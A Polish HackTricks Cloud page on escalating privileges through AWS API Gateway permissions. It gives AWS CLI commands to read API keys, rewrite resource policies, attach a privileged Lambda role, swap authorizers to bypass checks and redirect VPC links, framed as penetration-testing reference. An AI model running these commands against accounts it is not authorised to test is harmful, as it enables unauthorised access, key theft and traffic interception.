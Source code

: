 # AWS - Eskalacja uprawnień w Apigateway

<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć **reklamę swojej firmy w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Apigateway

Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Z tym uprawnieniem możesz generować klucze API dla skonfigurowanych interfejsów API (na region).
```bash
aws --region <region> apigateway create-api-key
```
**Potencjalne skutki:** Nie można podnieść uprawnień za pomocą tej techniki, ale można uzyskać dostęp do wrażliwych informacji.

### `apigateway:GET`

Z tym uprawnieniem można uzyskać wygenerowane klucze API skonfigurowanych interfejsów API (na region).
```bash
aws --region apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potencjalne skutki:** Nie można podnieść uprawnień za pomocą tej techniki, ale można uzyskać dostęp do wrażliwych informacji.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Z tymi uprawnieniami można zmodyfikować politykę zasobu API, aby uzyskać dostęp do jego wywołania i wykorzystać potencjalny dostęp, który może mieć brama API (np. wywołanie podatnej lambdy).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potencjalne skutki:** Zwykle nie będziesz w stanie uzyskać podwyższenia uprawnień bezpośrednio za pomocą tej techniki, ale możesz uzyskać dostęp do wrażliwych informacji.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Wymaga testowania
{% endhint %}

Atakujący posiadający uprawnienia `apigateway:PutIntegration`, `apigateway:CreateDeployment` i `iam:PassRole` może **dodać nową integrację do istniejącego interfejsu API Gateway REST API z funkcją Lambda, która ma przypisaną rolę IAM**. Atakujący może następnie **uruchomić funkcję Lambda w celu wykonania dowolnego kodu i potencjalnie uzyskać dostęp do zasobów powiązanych z rolą IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalne skutki**: Dostęp do zasobów powiązanych z rolą IAM funkcji Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Wymaga testowania
{% endhint %}

Atakujący posiadający uprawnienia `apigateway:UpdateAuthorizer` i `apigateway:CreateDeployment` może **modyfikować istniejącego autoryzatora bramy API** w celu ominięcia kontroli bezpieczeństwa lub wykonania dowolnego kodu podczas wykonywania żądań API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalne skutki**: Ominięcie kontroli bezpieczeństwa, nieautoryzowany dostęp do zasobów interfejsu API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Wymaga testowania
{% endhint %}

Atakujący posiadający uprawnienia `apigateway:UpdateVpcLink` może **modyfikować istniejące połączenie VPC, aby wskazywało na inny Network Load Balancer, potencjalnie przekierowując prywatny ruch API do nieautoryzowanych lub złośliwych zasobów**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potencjalne skutki**: Nieautoryzowany dostęp do prywatnych zasobów API, przechwycenie lub zakłócenie ruchu API.

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
